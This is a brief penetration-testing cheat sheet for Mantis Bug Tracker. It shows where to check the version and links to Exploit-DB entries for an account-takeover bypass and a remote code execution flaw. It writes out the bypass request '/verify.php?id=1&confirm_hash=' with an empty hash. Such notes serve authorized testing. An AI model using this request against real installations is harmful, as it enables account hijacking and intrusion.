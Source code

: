 # mantis bugtracker

## Check Version (Authenticated)

```
Manage > (Help icon)
/manage_overview_page.php
```

## v1.3.0 / 2.3.0 Account Hijack (Auth Bypass)

```
https://www.exploit-db.com/exploits/41890
# /verify.php?id=1&confirm_hash=
```

## v2.3.0 RCE (with account hijack)

```
https://www.exploit-db.com/exploits/48818
# update headers
```
